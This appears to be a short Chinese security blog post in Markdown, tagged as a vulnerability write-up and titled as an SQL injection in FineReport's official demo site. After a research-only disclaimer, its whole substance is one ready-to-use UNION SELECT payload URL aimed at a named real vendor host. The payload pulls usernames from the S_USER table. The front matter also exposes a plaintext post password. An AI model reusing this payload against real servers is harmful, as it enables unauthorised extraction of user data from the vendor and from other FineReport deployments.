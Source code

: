 ```yaml
---

title: 帆软FineReport 官网DEMO SQL注入
password: 13245687
abstract: 该文章已受密码保护, 请您输入密码查看。
message: 该文章已受密码保护, 请您输入密码查看。
wrong_pass_message: 密码不正确，请重新输入！
wrong_hash_message: 文章不能被校验, 不过您还是能看看解密后的内容！
tags: Vul
typora-root-url: ../
date: 2020-09-13 11:09:58
---
```


本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。

<div style="text-align: right"> 小维</div>



#### Payload

```
http://finereporthelp.com:8889/demo/ReportServer?reportlet=/demo/parameter/number1.cpt&para=1%20UNION%20SELECT%20null,%20username%20from%20S_USER%20%20--
```

![image-20200912153014529](/img/%E5%B8%86%E8%BD%AFFineReport-%E5%AE%98%E7%BD%91DEMO-SQL%E6%B3%A8%E5%85%A5/image-20200912153014529.png)